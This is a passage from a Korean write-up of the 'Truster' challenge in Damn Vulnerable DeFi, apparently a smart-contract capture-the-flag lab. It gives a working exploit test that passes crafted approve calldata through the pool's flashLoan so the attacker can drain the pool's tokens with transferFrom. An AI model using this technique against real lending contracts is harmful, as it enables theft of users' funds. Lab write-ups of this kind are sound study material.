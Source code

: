 ```solidity
        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal('0');
    });
});
```

즉 여기서 공격 코드는 this.pool의 flashLoan 함수를 호출하되 target이 damnValuableToken,data가 0x095ea7b3 + (’000000000000000000000000’+attacker.address.slice(2)) + ‘00000000000000000000000000000000000000000000D3C21BCECCEDA1000000’ 이면 된다.

```tsx
it('Exploit', async function () {
        await this.pool.flashLoan(
            0,
            attacker.address,
            this.token.address,
            '0x095ea7b3000000000000000000000000'+attacker.address.slice(2) + '00000000000000000000000000000000000000000000D3C21BCECCEDA1000000'
            )
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address ,TOKENS_IN_POOL)
 });
```

로 작성하여 flashLoan 함수를 이용해 

damnValuableToken.approve(attacker.address,1000000000000000000000000)을 실행시킨 후

damnValuableToken을 TrusterLenderPool에서 attacker의 주소로 1000000000000000000000000만큼 보내게 하면 된다.

![성공1.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/878f9d49-9771-4bd6-b794-0e955a0bdf5e/%EC%84%B1%EA%B3%B51.png)

npm run truster를 통해 공격이 성공했는지 테스트 결과를 확인해 보면 공격이 정상적으로 성공했음을 확인할 수 있다.
